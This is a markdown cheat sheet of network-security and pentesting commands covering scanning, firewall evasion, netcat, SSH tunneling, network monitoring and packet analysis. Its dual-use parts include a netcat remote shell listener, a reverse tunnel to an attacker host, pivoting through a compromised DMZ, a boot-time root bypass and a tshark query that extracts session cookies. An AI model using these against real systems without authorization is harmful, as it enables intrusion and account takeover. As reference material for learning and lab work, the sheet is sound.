



## Quick Reference

**Cheat Sheets**

- Nmap: https://blogs.sans.org/pen-testing/files/2013/10/NmapCheatSheetv1.1.pdf
- Wireshark: [https://packetlife.net/media/library/13/Wireshark_Display_Filters.pdf](https://packetlife.net/media/library/13/Wireshark_Display_Filters.pdf)
- TcpDump: [https://packetlife.net/media/library/12/tcpdump.pdf](https://packetlife.net/media/library/12/tcpdump.pdf)
- Netcat: [https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf](https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf)
- Ncat: [https://medium.com/@pentest_it/ncat-cheatsheet-ddc5f07d8533](https://medium.com/@pentest_it/ncat-cheatsheet-ddc5f07d8533)
- Scapy: [https://blogs.sans.org/pen-testing/files/2016/04/ScapyCheatSheet_v0.2.pdf](https://blogs.sans.org/pen-testing/files/2016/04/ScapyCheatSheet_v0.2.pdf)

**Quick Reference**

- [How to Find Your Public IP Address on Linux Command Line](https://www.putorius.net/find-public-ip-address-linux-command-line.html): `curl https://ipaddr.pub`
- MAC to IPv6: <https://ben.akrin.com/?p=1347>
  - take the mac address: for example `52:74:f2:b1:a8:7f`
  - throw `ff:fe` in the middle: 52:74:f2:`ff:fe`:b1:a8:7f
  - reformat to IPv6 notation `5274:f2ff:feb1:a87f`
  - convert the first octet from hexadecimal to binary: `52` -> `01010010`
  - invert the bit at index 6 (counting from 0): `01010010` -> `01010000`
  - convert octet back to hexadecimal: `01010000` -> `50`
  - replace first octet with newly calculated one: `5074:f2ff:feb1:a87f`
  - prepend the link-local prefix: `fe80::5074:f2ff:feb1:a87f`
  - <https://stackoverflow.com/questions/27693120/convert-from-mac-to-ipv6>    
    ```cpp
    format_eui_64() {
        local macaddr="$1"
        printf "%02x%s" $(( 16#${macaddr:0:2} ^ 2#00000010 )) "${macaddr:2}" \
            | sed -E -e 's/([0-9a-zA-Z]{2})*/0x\0|/g' \
            | tr -d ':\n' \
            | xargs -d '|' \
            printf "%02x%02x:%02xff:fe%02x:%02x%02x"
    }
    ```
- HTTP Request with `/dev/tcp`
    ```bash
    exec 3<>/dev/tcp/(INTERNAL IP ADDRESS)/80
    echo -e "GET / HTTP/1.1\r\nHost: (INTERNAL IP ADDRESS)\r\nConnection: close\r\nUser-Agent: Mozilla/5.0 (X11;Linux x86_64...) Gecko/20100101 Firefox/60.0\r\n\r\n" >&3
    cat <&3
    ```
- TCP Flag Key: <http://rapid.web.unc.edu/resources/tcp-flag-key/>
- Network Discovery
    ```
    nmap -sn <target addresses> # disable port scanning (keep discovery enabled)
    nmap -sP 192.168.1.1-255
    ettercap -T -i eth0 ///
    netdiscover -i ens33
    ```
- IPv6 
    ```
    ping (TARGET IP ADDRESS)
    arp -a
    ```
- Virtual firewall bypass 
  - <https://0xdf.gitlab.io/2019/04/06/htb-vault.html>
  - `route` check routing table and look for the firewall node (gateways)
  - `ip addr add 192.168.5.3/24 dev ens3` add a new network interface 
  - `route delete -net 192.168.5.0 gw 192.168.122.5 netmask 255.255.255.0` remove rule that's doing traffic forwarding to firewall
  - `time for i in $(seq 1 254); do (ping -c 1 192.168.5.${i} | grep "bytes from" &); done` host scan
  - `iptables -L` to get an idea about any blocking rules
- Simple Protocol for Independent Computing Environments (SPICE)
  - <https://en.wikipedia.org/wiki/Simple_Protocol_for_Independent_Computing_Environments>
  - <https://0xdf.gitlab.io/2019/04/06/htb-vault.html>
  - `ps -auxww | grep -F 'spice port'`
  - `apt install remmina remmina-plugin-spice`
  - Send `alt+ctrl+del` to restart 
  - Send `e` to do to recovery mode 
  - Scroll down to the line that starts with linux
  - Change `ro` to `rw`, and add `init=/bin/bash` to the end 
  - Save & reboot

## Network Security Monitoring

- Prevention eventually fails. One version of this philosophy is that security breaches are inevitable
- Prevention mechanisms can block some malicious activity, but it’s increasingly difficult for organizations to defend themselves as adversaries adopt more sophisticated tactics. 
- NSM is threat-centric, meaning adversaries are the focus of the NSM operation. Continuous Monitoring (CM) is vulnerability-centric, focusing on configuration and software weaknesses.
- NMS is a strategy backed by tactics that focus on visibility, not control.
- <http://nsmwiki.org/>
- Placed outside of NAT/NPAT, so that the NSM sees actual source IP of traffic
  -  configure switch to send copies of the traffic they see to an otherwise unused switch port. Cisco calls this technique the `Switched Port Analyzer`. Juniper and Dell use the term `port mirroring`. 
     - intruders could disable a SPAN port in order to hide some of their activities
  - or use network taps that provide separate ports with copies of network traffic. (Net Optics iTap Port Aggregator)

- Network address translation (NAT)
- Network port address translation (NPAT or PAT).
  - Each translation device rewrites the wireless or internal source IP address to be a single IP value, and uses changing source ports to differentiate among sending computers. 
  - As with NAT, each translation device maintains a table to track any changes.
  - Computers use the combination of source IP address, source port, destination IP address, destination port, and IP protocol to identify unique connections.
  - Ports are the key in the translation process, as they permit several private IP addresses to be hidden behind a single public IP address.

- Recommendations 
  - Limit command shell access to the system to only those administrators who truly need it. Analysts should log in to the sensor directly only in an emergency. Instead, they should access it through tools that allow them to issue commands or retrieve data from the sensor.
  - Administrators should never share the root account, and should never log in to sensors as the root account. If possible, access the sensor using shared keys, or use a two-factor or two-step authentication system like Google Authenticator.
  - Always administer the sensor over a secure communications channel like OpenSSH.
  - Do not centrally administer the sensor’s accounts using the same system that manages normal IT or user assets.
  - Always equip production sensors with remote-access cards.
  - Assume the sensor is responsible for defending itself. Limit the expo- sure of services on the sensor, and keep all services up-to-date.
  - Export logs from the sensor to another platform so that its status can be remotely monitored and assessed.
  - If possible, put the sensor’s management interface on a private network reserved for management only.
  - If possible, use full disk encryption to protect data on the sensor when it is shut down.
  - Create and implement a plan to keep the sensor software up-to-date. Treat the system like an appliance, but maintain it as a defensible platform.
- Tools 
  - Xplico (http://www.xplico.org/) can rebuild a web page whose content was captured in network form
  - Session Data / Transaction Data
    - Bro (http://www.bro.org/) can generate many types of logs based on its inspection of network traffic
    - Argus (http://www.qosient.com/argus/) can also generate records for this traffic
    - Sguil (http://www.sguil.net/) can also be used to view session data
      - SANCP tool (http://nsmwiki .org/SANCP) to collect session data and render
  - Statistical Data
    - Capinfos of Wireshark
  - Metadata
    - RobTex (http://www.robtex.com) offers a free resource to show routing data
  - Alert Data
    - Snort (http:// www.snort.org/)
    - Suricata (http://suricata-ids.org/)  
    - Consoles: Sguil or Snorby (http:// www.snorby.org/) - Snorby is a web-based tool, whereas Sguil is a “thick client” that users install on their desktops

- Security Onion (SO) NSM suite
  - Linux distro for IDS and NSM
    - Snort
    - Suricata
    - Sguil
    - Squert: View NIDS/HIDS  alerts and HTTP logs
    - Snorby: View and annotate IDS logs
    - ELSA: Seach logs (IDS, Bro, syslog)
    - Xplico: Carve PCAP files
  - `sudo service nsm status`
  - `curl www.testmyids.com`
  - Create separate user for each sensor (SSH)



## Port Scanning

- FPing: `for ip in $(seq 1 254);do fping 10.11.1.$ip >> fping.txt;done;grep alive ./fping.txt`
- Nc:
  - `for ip in $(seq 1 5); do nc -nvv -z 192.168.1.$ip 80 &>> /tmp/ncscan.txt done`
  - `nc -z -v (TARGET IP ADDRESS) 1-1024 2>/dev/stdout| grep -v refused`
- ARP ping: `nmap -sP -PR 10.11.1.0/24 -oG nmap-arp.txt`
- Ping: `for ip in $(seq 1 254);do ping -c 1 192.168.1.$ip | grep "bytes from" | cut -d" " -f4 | cut -d":" -f1 & done`
- /dev/tcp: `for port in $(seq 1 65530); do (echo $port > /dev/tcp/$target/$port && printf "[!] $port is open.\n") 2>/dev/null done`
- Port monitor 
    ```bash
    watch -n1 nc -w1 -nvz 192.168.1.23 123
    # -w1: timeout 1 sec, -n: no reverse lookup, -v: verbose, -z: no IO, act as a scanner
    ```
- Nmap: Evade Firewall
  - `-sA` - TCP ACK Scan
  	- Because of the ACK packets the firewall cannot create the log
  	- Firewalls treat ACK packet as the response of the SYN packet
  		- Open port (few ports in the case of the firewall)
      - Closed port (most ports are closed because of the firewall)
      - Filtered (Nmap is not sure whether the port is open or not)
      - Unfiltered (Nmap can access the port but is still confused about the open status of the port)
  - `-sW` - TCP Window Scan
  	- Designed to differentiate between open and closed ports instead of showing unfiltered
  	- Does not open any active session with the target computer
  	- Send ACK packets and receive a single RST packet in response
  - `-f`, `-ff` - Fragment Packets
  - `-spoof-mac Cisco` - Spoof MAC
  - `-scan_delay` - control the delay between each and every request
  - `-host-timeout`
- Types of port scans
  - TCP Connect Scan: `nc -nvv -w 1 -z <ip> <port-range>`
    - Full 3 way handshake
  - SYN / Stealth Scan
    - Send SYN
    - SYN-ACK means open
    - RST means closed
  - UDP Scanning: `nc -nv -u -z -w 1 <ip> <port-range>`
    - ICMP port unreachable means closed
    - No response means open
- Port Knocking: `for x in 1111, 2222, 3333; do nmap -Pn --host_timeout 201 --scan-delay 0.2 --max-retries 0 -p $x <IP>; done`
  - Look for: `knockd`
  - Configured at: `​/etc/knockd.conf​`
- Scanning Methods
  - All TCP and UDP fast scan:
    ```bash
    masscan -p1-65535,U:1-65535 <IP> --rate=1000 -e tun0 -p1-65535,U:1-65535 > ports
    ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')
    nmap -Pn -sV -sC -sU -sT -p$ports <IP>
    ```
  - Quick all TCP scan using Nmap only:
    ```bash
    ports=(nmap -p- --min-rate=1000 -T4 <IP> | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
    nmap -Pn -sV -sC -sU -sT -p$ports <IP>
    ```
  - Quick all TCP and UDP scan using Nmap only:
    ```bash
    ports=(nmap -p- --min-rate=1000 -T4 <IP> | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
    nmap -Pn -sV -sC -sU -sT -p$ports <IP>
    ```
    ```bash
    nmap -sS -T5 -A -f -v IP
    nmap -n -Pn -sV --version-all --open -sC -oA [target] --stats-every 120
    nmap -T4 -sV -sC -Pn [box ip] -oA [box_name]_initial_scan
    ```
- Vulnerability Scanning
  - Nmap
    ```bash
    nmap -v -p 80 --script http-vuln-cve2010-2861 <ip>
    nmap -v -p 80 --script all <ip>
    nmap -v -p 80 -sC <ip>
    nmap -v -p 80 --script default,safe <ip>
    ```
  - OpenVAS
    ```
    openvas-setup
    https://ip:9392
    ```

## Port Forwarding / Tunneling

```bash
Local:   ssh <gateway> -L <local port to listen>:<remote host>:<remote port>
Remote:  ssh <gateway> -R <remote port to bind>:<local host>:<local port>
Dynamic: ssh <gateway> -D <port to bind>

Local:   plink.exe <gateway> -L <local port to listen>:<remote host>:<remote port>
Remote:  plink.exe <gateway> -R <remote port to bind>:<local host>:<local port>
Dynamic: plink.exe <gateway> -D <port to bind>
```

### Local Port Forwarding


> <https://unix.stackexchange.com/questions/115897/whats-ssh-port-forwarding-and-whats-the-difference-between-ssh-local-and-remot>

```bash
ssh -L <local-port-to-listen>:<remote-host>:<remote-port> <gateway>
```

Allow connections to a specific blocked server. From work login to home and use it as a gateway to access `banned-site.com:80`:

```bash
ssh -L 9001:banned-site.com:80 user@home #work
curl http://localhost:9001 #home
```


```bash
ssh -L 9001:banned:22 user@home
ssh -p 9001 localhost
```


Allow remote connections to local port forwards (listening on all interfaces)

```bash
ssh -L 9001:banned:22 user@home -g
ssh -p 9001 work_machine #remotely
```

Access a port on your server which can only be accessed from localhost and not remotely. Server acts as the gateway and binds server's port 5432 to local port 9000.

```bash
ssh -L 9000:localhost:5432 user@server
psql -h localhost -p 9000
```

### Remote Port Forwarding


> <https://unix.stackexchange.com/questions/115897/whats-ssh-port-forwarding-and-whats-the-difference-between-ssh-local-and-remot>

Allow remote access to restricted network. 

Server will bind port 9001 on `home` machine to listen for incoming requests which would subsequently be routed through the created SSH channel. Connecting to `localhost:9001` in `home` will forward user to intra:22

```bash
ssh -R 9001:intra-ssh-server:22 user@home #work
ssh -p 9001 localhost #home
```


Add `GatewayPorts yes` to `sshd_config` to listening on all interfaces.

Allow public access to a local resource through a public server.

```bash
ssh -R 9000:localhost:3000 user@public_sever
```
```bash
sudo vim /etc/ssh/sshd_config
GatewayPorts yes
sudo service ssh restart
```

### Dynamic port forwarding

One local port for tunneling data to all remote destinations (SOCKS protocol)

```bash
ssh -D 9001 home
```
```bash
ssh -fND 9001 home
```
```
echo 'socks5 127.0.0.1 9999' >> /etc/proxychains.conf
```
```
curl http://192.168.122.4 && proxychains curl 192.168.122.4
```


### Quick Reference

- Monitoring Tunnels: `netstat -tunelp`
- Avoid TTL: `-nNT`
- Creating reverse SSH client to tunnel-out remote desktop port
  - FROM remote non-routable machine
    ```bash
    pling -l root -pw password attacker-ip -R 3390:127.0.0.1:3389  
    # localhost 3389 to attacker ip 3389
    ```
  - FROM attacker's machine
    ```bash
    rdesktop localhost:3390
    ```
- SSH Dynamic Port Forwarding (compromised DMZ used to scan internal IPs)
  - Create local SOCS4 proxy: From attacker's machine (compromised DMZ)
    ```bash
    ssh -D 8080 root@DMZ-IP

    netstat -antp | grep 8080

    /etc/proxychains.conf
    socks4 127.0.0.1 8080
    proxychains nmap -p 3389 -ST -Pn non-routable-remote-ip-range --oepn

    proxychains rdesktop rdp-ip-in-non-routable-range
    ```
- Ncat: 
  - Forward local 1234 to command
  - `sudo /usr/bin/ncat -l 1234 --sh-exec "ncat 192.168.5.2 987 -p 53"`
**Tools**

- rinetd
  - When outbound only 80 / 443 use port forwarding (ip1:80 will proxy for ip2:3389)
    ```
    nano /etc/rinetd.conf
    ip1 80 ip2 3389
    ```
    ```
    bindaddress bindport connectaddress connectport
    ```  
- XFLTReaT tunnelling framework: <https://github.com/earthquake/XFLTReaT>
    ```
    TCP
    UDP
    ICMP
    SOCKS v4, 4a, 5
    HTTP CONNECT
    SCTP (by Darren Martyn @info_dox)
    WebSocket
    DNS (A/CNAME, PRIVATE, NULL) - Proof of Concept
    RDP (Windows only)
    ```
- <https://github.com/sshuttle/sshuttle>
- <https://github.com/klsecservices/rpivot>
- <https://github.com/wolfSSL/wolfssh>
- <https://github.com/jpillora/chisel>

**References**

- <https://unix.stackexchange.com/questions/115897/whats-ssh-port-forwarding-and-whats-the-difference-between-ssh-local-and-remot>
- <https://chamibuddhika.wordpress.com/2012/03/21/ssh-tunnelling-explained/>
- <http://www.debianadmin.com/howto-use-ssh-local-and-remote-port-forwarding.html>
- <https://blog.trackets.com/2014/05/17/ssh-tunnel-local-and-remote-port-forwarding-explained-with-examples.html>

**New References**

- <https://vimeo.com/54505525>

## Tools

- Inject code and spy on wifi users: <https://github.com/DanMcInerney/LANs.py>
- Collection of PowerShell network security scripts for system administrators: <https://github.com/thom-s/netsec-ps-scripts>
- [CyberScan: Network's Forensics ToolKit](https://github.com/medbenali/CyberScan)
- Sparta: <https://github.com/SECFORCE/sparta>
- BetterCap - Swiss army knife for network attacks and monitoring: <https://www.bettercap.org/>
  - Pwning WPA/WPA2 Networks With Bettercap and the PMKID Client-Less Attack: <https://www.evilsocket.net/2019/02/13/Pwning-WiFi-networks-with-bettercap-and-the-PMKID-client-less-attack/#.XGRV3mo06jA.twitter>
- Nmap 
  - Port Related Information: `/usr/share/nmap/nmap-servies`
  - ICMP (Ping) Sweep:
    ```
    nmap -sn <pi-rage>
    nmap -sn <ip-range> -oG filename (grepable format)
    ```
  - Sweep TCP/UDP ports: `nmap -p 80 <ip-range> -oG filename` 
  - Sweep full network for top ports: `nmap -sT -A --top-ports=20 <ip-range> -G filename`
  - Script engine: `ls -l /usr/share/nmap/scripts | grep smb`
  - Important flags
    - `-O` for OS Fingerprinting
    - `-sV` for banner grabbing
  - Netstat
    - Kernel IP routing table: `netstat -nr`
    - Listening ports: `netstat -lp` `netstat -lvnp`
  - Netcat 
    - Cheat sheet: <https://www.sans.org/security-resources/sec560/netcat_cheat_sheet_v1.pdf>
    - General Commands 
      - Listen on port 567/TCP: `nc -l -p 567` 
      - Connecting to 567 of 1.2.3.4: `nc 1.2.3.4 5676` 
      - Pipe a text file to the listener: `cat infile | nc 1.2.3.4 567 -q 10`
      - Have the listener save a received text file: `nc -l -p 567 > textfile`
      - Transfer a directory: 
        - Reciever: `nc -l -p 678 | tar xvfpz`
        - Sender: `tar zcfp - /path/to/directory | nc -w 3 1.2.3.4 678` 
      - Send a message to your syslog server (the <0> means emerg): `echo '<0>message' | nc -w 1 -u syslogger 514` 
      - Setup a remote shell listener: 
        - `nc -v -e '/bin/bash' -l -p 1234 -t`
        - `nc l p 1234 e "c:\windows\system32\cmd.exe"` 
      - Make an HTTP request: `echo -e "GET http://www.google.com HTTP/1.0nn" | nc -w 5 www.google.com 80` 
      - One-page webserver: `cat homepage.txt | nc -v -l -p 80` 
    - General Options 
      - Use IPv4 addressing only: `nc -4 [options] [host] [port]` 
      - Use IPv6 addressing only: `nc -6 [options] [host] [port]` 
      - UDP instead of TCP: `nc -u [options] [host] [port]` 
      - Listen for an incoming connection: `nc -l [host] [port]` 
      - Continue listening after client has disconnected: `nc -k -l [host] [port]` 
      - No DNS lookups: `nc -n [host] [port]` 
      - Use specific source port: `nc -p [source port] [host] [port]` 
      - Use source IP: `nc -s [source ip] [host] [port]` 
      - Apply 'n' second timeout: `nc -w [timeout] [host] [port]` 
      - Verbose output: `nc -v [host] [port]` 
    - Port Scanning 
      - Scan a single TCP port: `nc -zv hostname.com 80` 
      - Scan a range of ports: `nc -zv hostname.com 80-84` 
      - Scan multiple ports: `nc -zv hostname.com 80 84` 
    - Other 
      - One page web server: `while : ; do ( echo -ne "HTTP/1.1 200 OK\r\nContent-Length: $(wc -c <index.html)\r\n\r\n" ; cat index.html; ) | nc -l -p 8080 ; done`
      - Proxy: `mknod backpipe p ; nc -l [proxy port] < backpipe | nc [destination host] [destination port] > pipe`
      - Wrap readline history library (support up arrow, etc):`rlwrap nc -t remotehost 23`
    - References:
      - <https://kapeli.com/cheat_sheets/Netcat.docset/Contents/Resources/Documents/index>
      - <http://workrobot.com/sysadmin/security/netcat_cheatsheet.html>

## Techniques 

### Domain Fronting

**Tools**

- Psiphon: https://www.psiphon3.com/en/index.html
- Meek: https://trac.torproject.org/projects/tor/wiki/doc/AChildsGardenOfPluggableTransports#meek

**References**

- Introduction: https://www.andreafortuna.org/cybersecurity/privacy/domain-fronting-in-a-nutshell/
- Usage in APT29: https://www.fireeye.com/blog/threat-research/2017/03/apt29_domain_frontin.html
- Azure (Hardening Your Azure Domain Front): https://medium.com/@rvrsh3ll/hardening-your-azure-domain-front-7423b5ab4f64
- A 101 on Domain Fronting: https://digi.ninja/blog/domain_fronting.php
- Domain Fronting with CloudFront: https://digi.ninja/blog/cloudfront_example.php

### Traffic Analysis

- Accounting Traffic 
    ```bash
    #!/bin/bash
    # Reset counters and iptables rules
    iptables -Z && iptables -F
    # Measure incoming traffic from lab machine
    iptables -I INPUT 1 -s 192.168.1.23 -j ACCEPT
    # Measure outgoing traffic to lab machine
    iptables -I OUTPUT 1 -d 192.168.1.23 -j ACCEPT
    ```
    ```
    watch -n 1 iptables -nvL
    ```
- Using a Capture: `aircrack-ng captured.cap​`
- Netcap - A framework for secure and scalable network traffic analysis: <https://github.com/dreadl0ck/netcap>
- PCAP Samples:
  - Netresec: <https://www.netresec.com/?page=pcapfiles>
  - Malware Traffic Analysis: <https://www.malware-traffic-analysis.net/>
  - Packettotal (Just like virustotal but for PCAP Analysis): <https://packettotal.com/>
  - <https://wiki.wireshark.org/SampleCaptures>
- PA Toolkit (Pentester Academy Wireshark Toolkit) - PA Toolkit is a collection of traffic analysis plugins to extend the functionality of Wireshark from a micro-analysis tool and protocol dissector to the macro analyzer and threat hunter: <https://github.com/pentesteracademy/patoolkit>
-  CapAnalysis: <https://drive.google.com/uc?authuser=0&id=1Lf8yU7alFZdRlT6WstKjngN2RAp-1jG8&export=download>
- Netsh (Windows)   
    ```
    netsh trace show capturefilterhelp
    netsh trace show scenarios
    netsh trace show globalkeywordsandlevel
    ```
    ```
    netsh trace start capture=yes IPv4.Address=192.168.122.2
    netsh trace start scenario=InternetClient,InternetServer,NetConnection globalLevel=win:Verbose capture=yes report=yes traceFile=C:\temp\trace\trace001.etl
    netsh trace stop
    ```
- Use Microsoft Network Monitor 3.4 to view: <https://www.microsoft.com/en-us/download/details.aspx?id=4865>
- Convert to PAC from: <https://github.com/microsoft/etl2pcapng>
- Use powershell to convert:
    ```powershell
    $s = New-PefTraceSession -Path “C:\output\path\spec\OutFile.Cap” -SaveOnStop
    $s | Add-PefMessageProvider -Provider “C:\input\path\spec\Input.etl”
    $s | Start-PefTraceSession
    ```  
- tcpdump to show HTTP request/response headers
  - <https://serverfault.com/questions/504431/human-readable-format-for-http-headers-with-tcpdump>
    ```bash
    sudo tcpdump -A -s 10240 'tcp port 4080 and (((ip[2:2] - ((ip[0]&0xf)<<2)) - ((tcp[12]&0xf0)>>2)) != 0)' | egrep --line-buffered "^........(GET |HTTP\/|POST |HEAD )|^[A-Za-z0-9-]+: " | sed -r 's/^........(GET |HTTP\/|POST |HEAD )/\n\1/g'
    ```
    ```bash
    sudo stdbuf -oL -eL /usr/sbin/tcpdump -A -s 10240 "tcp port 4080 and (((ip[2:2] - ((ip[0]&0xf)<<2)) - ((tcp[12]&0xf0)>>2)) != 0)" | egrep -a --line-buffered ".+(GET |HTTP\/|POST )|^[A-Za-z0-9-]+: " | perl -nle 'BEGIN{$|=1} { s/.*?(GET |HTTP\/[0-9.]* |POST )/\n$1/g; print }'
    ```
- tcpdump
    ```
    tcpdump -i eth1  -s 0 port not 22
    tcpdump -i eth1  -s 0 port not 22 and port not 53
    tcpdump -i eth1 port not 22 and host 1.2.3.4
    ```

#### TSHark

- General
  - Supported network interfaces: `tshark -D`
  - Sniff on eth0: `tshark -i eth0`
  - Open `pcap`: `tshark -r HTTP_traffic.pcap`
  - Read 100 packets from `pcap`: `tshark -r HTTP_traffic.pcap -c 100`
  - Print full details for first 10 Packets: `tshark -r HTTP_traffic.pcap -c 10 -V`
  - List of protocols in `pcap`: `tshark -r HTTP_traffic.pcap -z io,phs -q`
  - Export into PDML: `tshark -r HTTP_traffic.pcap  -T pdml > http.xml`
  - PDML to HTML: `xsltproc /usr/share/wireshark/pdml2html.xsl http.xml > http.html`
- HTTP
  - Only the HTTP traffic: `tshark -Y 'http' -r HTTP_traffic.pcap`
  - IP packets sent from IP address 192.168.252.128 to 52.32.74.91?: `tshark -r HTTP_traffic.pcap -Y "ip.src==192.168.252.128 && ip.dst==52.32.74.91"`
  - Packets containing GET requests: `tshark -r HTTP_traffic.pcap -Y "http.request.method==GET"`
  - Print only source IP and URL for all GET request packets: `tshark -r HTTP_traffic.pcap -Y "http.request.method==GET" -Tfields -e frame.time -e ip.src -e http.request.full_uri`
  - Packets contain the "password" string: `tshark -r HTTP_traffic.pcap -Y "http contains password”`
  - Destination IP for GET requests sent to New York Times (www.nytimes.com): `tshark -r HTTP_traffic.pcap -Y "http.request.method==GET && http.host==www.nytimes.com" -Tfields -e ip.dst`
  - Session ID being used by 192.168.252.128 for Amazon India store (amazon.in)?: `tshark -r HTTP_traffic.pcap -Y "ip contains amazon.in && ip.src==192.168.252.128" -Tfields -e ip.src -e http.cookie`
